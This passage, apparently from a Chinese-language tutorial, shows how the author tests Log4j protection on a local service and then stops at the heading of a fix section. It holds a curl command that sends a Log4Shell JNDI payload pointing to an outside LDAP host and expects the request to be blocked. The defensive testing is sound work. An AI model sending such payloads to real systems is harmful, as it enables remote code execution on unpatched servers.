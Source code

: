       ![1742219066595](image/record/1742219066595.png)

##### 5. 测试 Log4j 漏洞防护效果
   - 使用 `curl` 发送包含 `${jndi:ldap://chloris.check4safe.top}` 的请求，测试 Log4j 漏洞防护效果。
      ```bash
      curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://localhost:8080/hello -vv
      ```
      - 如果配置正确，请求应该被拦截，返回 `403 Forbidden` 和我之前配置的错误信息。
      ![1742800417881](image/record/1742800417881.png)

- 完成 !


---


### 六. 漏洞修复

#### Log4j 漏洞修复详细步骤
